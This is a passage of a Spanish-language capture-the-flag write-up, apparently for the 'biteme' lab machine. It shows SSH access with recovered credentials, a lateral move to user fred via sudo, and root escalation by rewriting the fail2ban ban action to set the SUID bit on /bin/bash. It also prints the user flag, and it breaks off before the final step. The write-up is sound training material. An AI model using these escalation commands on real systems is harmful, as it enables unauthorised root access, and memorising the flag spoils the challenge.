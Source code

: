 ```bash
Session completed. 
```
Ahora que conocemos la contraseña, cambiamos los permisos del archivo para que sea de solo lectura
```bash
chmod 400 key.txt 
```
Con esto, ya tendremos las credenciales para conectarnos por SSH con el usuario jason
```bash
username: jason
password: 1a2b3c4d
```
```bash
ssh -i key.txt jason@10.10.118.236
```

# Privilege escalation
Una vez que hayamos conseguido acceder a la máquina, lo primero que podemos encontrar es la clave del usuario
```bash
jason@biteme:~$ ls
user.txt
jason@biteme:~$ cat user.txt
THM{6fbf1fb7241dac060cd3abba70c33070}
```
Lo que necesitamos ahora es obtener acceso como root. Lo primero que haremos es verificar los permisos que tiene el usuario jason. Con esto, podemos ver que jason puede ejecutar sudo como el usuario Fred
```bash
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```
Este permiso sudo permite al usuario jason ejecutar comandos como Fred sin contraseña. Esto significa que podemos hacer que Fred inicie sesión sin contraseña, por lo que vamos a iniciar un shell como Fred.
```bash
sudo -u fred bash
```
Una vez como usuario Fred, vamos a verificar qué permisos tiene
```bash
sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```
Fail2ban es un software que prohíbe una dirección IP después de varios intentos fallidos de inicio de sesión SSH. Puedes especificar qué hacer cuando detecta estos intentos, y si podemos escribir en el archivo de configuración de fail2ban, podemos ejecutar cualquier comando en lugar de prohibir la IP, vamos a modificar el fichero de configuracón
```bash
fred@biteme:~$ nano /etc/fail2ban/action.d/iptables-multiport.conf 
```
Modificamos la acción de bloqueo, especificando lo que queremos que ocurra cuando se active. En este caso, queremos que se active el bit SUID del binario /bin/bash
```bash
fred@biteme:~$ actionban = chmod +s /bin/bash
```
Una vez modificado, reiniciamos el servicio y verificamos el estado actual del binario.
```bash
```